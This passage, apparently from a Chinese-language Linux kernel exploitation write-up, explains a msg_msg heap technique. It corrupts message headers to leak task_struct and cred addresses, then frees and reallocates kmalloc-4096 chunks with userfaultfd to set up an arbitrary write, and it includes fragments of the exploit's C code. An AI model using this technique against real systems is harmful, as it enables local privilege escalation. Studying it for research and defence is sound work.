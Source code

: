 **具体**：篡改 `msg_msg-&gt;m_ts` 为0x2000，篡改 `msg_msg-&gt;next`指针指向 `task_struct`结构（注意头8字节为null），遍历双链表直到读取到当前进程的`task_struct`。同理泄露当前进程的`cred`地址。

```
[...]

leak = arb_read(0, current_task, 0x2000, 1) + 0x1fa;
cred_struct = leak[0x540/8];
printf("[+] Leaked current task cred struct: 0x%lx\n", cred_struct);

[...]
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ee788fd02c9f6dd4.png)

### <a class="reference-link" name="4.3%20%E6%AD%A5%E9%AA%A43%E2%80%94%E2%80%94%E4%BB%BB%E6%84%8F%E9%87%8A%E6%94%BE"></a>4.3 步骤3——任意释放

**目标**：目前已获取当前进程的task地址和cred地址，需构造任意写，但前提需要构造任意释放。根本目标是构造重叠的`kmalloc-4096`堆块，让其既充当一个消息的`msg_msgseg` segment，又充当另一个消息的`msg_msg`，这样就能覆写`msg_msg-&gt;next`指针构造任意写。 问题，为什么不构造重叠的`kmalloc-64`？因为`kmalloc-64`作为`msg_msg`的话不可能有segment，不能伪造它的`msg_msg-&gt;next`来任意写；且传入的长度已确定，无法写segment来任意写。

**释放消息**：首先释放**QID #1**中的消息，两次调用`msgrcv()`（不带`MSG_COPY` flag）。
- （1）第一次调用 `msgrcv()`，内核释放**`QID #1`**中第1个消息-`kmalloc-64`；
- （2）第二次调用 `msgrcv()`，内核释放第2个消息-`kmalloc-4096`和相应的segment（也在`kmalloc-4096`中）。
```
[...]

msgrcv(qid[1], memdump, 0x1ff8, 1, IPC_NOWAIT | MSG_NOERROR); // [1]
msgrcv(qid[1], memdump, 0x1ff8, 1, IPC_NOWAIT | MSG_NOERROR); // [2]

[...]
```

内存布局如下：

[![](https://p4.ssl.qhimg.com/t01881bce062930be55.png)](https://p4.ssl.qhimg.com/t01881bce062930be55.png)

**kmalloc-4096释放顺序**：注意，前面的exp中，我们泄露了`kmalloc-4096`的地址（**QID #1** 中消息2的`msg_msg`地址），前面我们第2次调用`msgrcv()`时，内核调用 `do_msgrcv()` -&gt; `free_msg()` 先释放 `kmalloc-4096`的`msg_msg`，再释放`kmalloc-4096`的segment，由于后进先出，分配新的消息时会先获取segment对应的`kmalloc-4096`，所以新的`msg_msg`占据之前的segment，新的segment占据之前的`msg_msg`。

**申请消息-QID #2**：子线程创建新消息，首先创建队列**QID #2** [2]，再调用`msgsnd()`创建0x1ff8大小的消息（0x30的头和0x1fc8的数据），内核中会创建`0x30+0xfd0`大小的`msg_msg`和`0x8+0xff8`大小的`msg_msgseg`。

用户传入数据位于`page_1 + PAGE_SIZE - 0x10`，使用 [userfaultfd](https://www.kernel.org/doc/html/latest/admin-guide/mm/userfaultfd.html) 来监视 `page_1 + PAGE_SIZE` 位置，等待页错误，**第2个页错误**。当`load_msg()`调用`copy_from_user()`拷贝时触发页错误，结果如下图所示，现在我们已知新的segment地址（**QID #1** 中消息2的`msg_msg`地址），原因已经阐明。**QID #2** 布局如下图所示：

```
[...]

void *allocate_msg1(void *_)
`{`
    printf("[Thread 1] Message buffer allocated at 0x%lx\n", page_1 + PAGE_SIZE - 0x10);

    if ((qid[2] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1) // [2] 创建队列 QID #2 
    `{`
        perror("msgget");
        exit(1);
    `}`

    memset(page_1, 0, PAGE_SIZE);
    ((unsigned long *)(page_1))[0xff0 / 8] = 1;

```